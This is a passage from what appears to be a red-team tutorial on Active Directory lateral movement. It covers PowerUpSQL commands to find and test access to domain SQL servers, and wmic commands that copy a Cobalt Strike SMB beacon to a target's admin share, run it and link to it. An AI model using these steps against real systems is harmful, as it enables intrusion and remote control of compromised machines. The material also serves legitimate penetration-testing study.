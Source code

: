 It is possible to pipe the previous command into another cmdlet we'll use to test out ability to access the server:

```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose -Threads 15
```

Privilege and post exploitation of SQL servers is out of the scope of this post, the takeover is that with one of the account you compromised you may be able to log into a SQL server that supports AD authentication.

The things that can be achieved from there are:

* Data mining to find sensitive information;
* Privilege escalation and gain OS level command execution;
* Crawl DB links to see if we have access to other databases.


Now we should have a good understanding of the level of access that we have in the context of the network. Always remember to repeat all the aforementioned checks with all the accounts you compromised.

Armed with this knowledge, we're ready to start exploring the various techniques to access the resources we previously identified.

## WMI

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A

It is possible to use Windows Management Instrumentation (WMI) to create  processes within a remote machine. The syntax is quite simple and it is the following:

```
wmic /node:TARGET process call create "notepad.exe"
```

Just starting a remote process in probably not enough, we want control over the target machine. What we can do, for example, is uploading Cobalt Strike (or Covenant) SMB beacon into the target workstation and then use WMI to execute it:

```
shell copy smb-beacon.exe \\TARGET\C$\windows\temp
shell wmic /node:TARGET process call create “c:\windows\temp\smb-beacon.exe”

link TARGET
```

The command `link TARGET` is specific to Cobalt and it is used to connect to a named pipe that a SMB beacon opened (with Covenant should be `connect`).

This is not the only way of launching a beacon, for example you could use various one-liners without touching the disk. The same applies for all the techniques below.

## Remote Service Creation

Requires Admin | Local Group Membership | ATTACK ID
--- | --- | ---
Yes | `Administrators` | N/A
